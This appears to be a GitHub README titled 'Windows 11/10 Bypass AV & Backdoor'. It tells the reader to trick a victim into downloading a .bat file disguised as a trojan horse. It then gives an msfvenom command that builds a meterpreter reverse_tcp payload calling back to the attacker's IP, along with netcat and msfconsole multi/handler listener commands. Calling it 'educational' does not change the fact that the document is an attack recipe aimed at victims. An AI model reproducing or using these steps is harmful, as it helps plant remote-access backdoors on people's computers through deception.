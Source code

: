 # Windows 11/10 Bypass AV & Backdoor
##### Educational purposes only!
##### Social Engineering required!
#### Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
#### Make it convincing by turning it into a trojan horse.

### Generate the payload:
#### Using meterpreter here, but feel free to play around with it.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

# Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
